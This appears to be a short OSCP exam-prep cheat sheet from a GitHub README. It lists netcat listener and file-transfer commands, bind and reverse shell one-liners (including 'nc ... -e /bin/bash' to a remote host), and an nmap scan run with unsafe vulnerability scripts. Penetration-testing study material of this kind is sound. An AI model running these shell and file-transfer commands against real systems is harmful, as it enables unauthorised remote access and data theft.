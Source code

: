 # Go-For-OSCP

# Tips
<b>Enable service on every reboot:</b>

update-rc.d <[service]> enable

<b>Extract link from html page:</b>

cat index.html | grep "href=" | cut -d "/" -f3| grep "debian.org" | cut -d '"' -f1 | sort -u

# Netcat
<b>Interact with application:</b>

nc -nv <[IP]> <[PORT]>

<b>Listener:</b>

nc -nlvp <[PORT]>

<b>File transfer (client):</b>

nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Bind_Reverse_shell.png" width="500"/>

<b>Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:</b>

(BOB): nc -nlvp <[PORT]> -e cmd.exe

<b>Alice connects to Bob's pc:</b>

(ALICE): nc -nv <[BOB_IP]> <[PORT]>

<b>Alice needs Bob's help. Since Alice is beyond firewall it is impossible to BOB to reach Alice. So Alice create a reverse shell:</b>

(ALICE): nc -nv <[BOB_IP]> <[PORT]> -e /bin/bash

<b>Bob connects to Alice's pc:</b>

(BOB): nc -nlvp <[PORT]>








# Nmap
nmap -sS -sV -A -O --script="*-vuln-*" --script-args=unsafe=1 <[IP]>
